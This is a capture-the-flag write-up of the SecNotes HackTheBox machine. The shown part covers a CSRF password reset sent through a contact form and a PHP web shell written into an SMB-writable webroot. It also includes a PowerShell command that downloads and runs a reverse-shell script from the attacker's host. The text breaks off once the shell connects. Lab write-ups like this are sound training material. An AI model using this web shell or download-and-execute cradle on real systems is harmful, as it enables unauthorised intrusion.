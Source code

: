 SecNotes was a medium difficulty Windows box. Being an earlier HTB box it wasn't as involved as some of the more recent medium boxes. The initial foothold involved getting finding credentials to access a share over SMB which can be done via an XSRF or a second order SQL injection. The share is the webroot of a development site into which we can write a PHP reverse shell. The privilege escalation involved finding credentials in a history file in Windows Subsystem for Linux from which we can psexec into the box as the administrator. I'll also look into the artifacts psexec leaves behind.

I'll first run a port scan against the box using my alias `fscan`

<img src="images/fscan.png">

We see ports 80,445,8808 are open. Ports 80 and 8808 are running `Microsoft IIS httpd 10.0` though nmap shows a redirect to `login.php` on port 80.

Visiting the website shows a login form with an option to signup

<img src="images/secnoteslogin.png">

I'll signup with the credentials `max:password`

<img src="images/signup.png">

Logging in presents us with the option to create a new note, change our password, signout or contact someone on the backend of the site. The second and last options present us with some opportunities. Perhaps we could change the password of another user then access their notes, or perform an attack against someone checking the contact messages, or both!

<img src="images/home.png">

The contact form sends a message to `tyler@secnotes.htb`. If tyler is clicking on links we may be able to perform XSS/XSRF

<img src="images/contact.png">

First I'll check the logic behind changing the password. I'll change my password to `password1` and intercept the request in burpsuite

<img src="images/changepwdpost.png">

Note that the current password is not included anywhere in the request, and there's no XSRF token generated prior to making the request. I'll send it over to repeater and change the request method to a `GET` and submit the request.

<img src="images/changepwdget.png">

We get a 200 OK after a 302 redirect. I'll logout and try logging in with `max:password1`

<img src="images/home.png">

Changing the password worked with a GET request. What I'll do now is to send tyler the URL I submitted to the server to change my password via the contact form, and if he visits it, his password will change provided his browser has cached an authenticated session to the site.

<img src="images/tyler.png">

I'll submit the link `http://10.10.10.97/change_pass.php?password=password2&confirm_password=password2&submit=submit` in the contact form follwed by `http://10.10.14.31/done` and start a netcat listener on port 80, so if I get a request through for `/done` I'll know Tyler visited the malicious link.

<img src="images/done.png">

On my listener I get a connection and I can now login with `tyler:password` and access his notes.

<img src="images/pwreset.png">

We see a note for `new site`. This is likely referring to the site on port 8808. It appears to contains credentials for the share `\\secnotes.htb\new-site`. I'll check access with `smbmap`

<img src="images/new-site.png">

We have write access over the `new-site` share. Visiting the share with `smbclient` shows we're in the webroot of the site on port 8808.

<img src="images/iis.png">

I'll create `shell.php` containing
```
<?php system($_REQUEST['cmd']); ?>
```
and upload it to the share. Visiting the URL `http://10.10.10.97:8808/shell.php?cmd=whoami` shows we have code execution on the server.

<img src="images/rce.png">

From here I'll write a powershell reverse shell in `shell.ps1` to call back to port 9001 on my box and host it on a python webserver. 

I'll start a netcat listener on port 9001, then I'll visit the URL `http://10.10.10.97:8808/shell.php?cmd=powershell iex(iwr -uri http://10.10.14.31/shell.ps1 -usebasicparsing)`

<img src="images/webserve.png">

I get a request to my webserver

<img src="images/hit.png">

followed by a connection on my listener
